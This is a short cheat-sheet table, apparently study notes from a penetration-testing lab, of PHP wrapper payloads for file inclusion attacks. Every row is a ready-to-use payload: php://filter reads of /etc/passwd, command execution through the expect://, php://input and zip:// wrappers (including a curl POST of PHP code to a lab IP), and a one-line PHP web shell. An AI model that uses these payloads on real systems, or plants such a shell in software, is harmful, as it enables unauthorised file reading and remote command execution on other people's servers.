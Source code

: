 | **Command** | **Description** |
| --------------|-------------------|
| `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert file contents to Base64 |
| `php://filter/read=string.rot13/resource=/etc/passwd`   | PHP filter to convert file contents to ROT13 |
| `expect://id` | Command execution with PHP `Expect` wrapper |
| `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"` | Using PHP `Input` wrapper for command execution |
| `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
| `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |
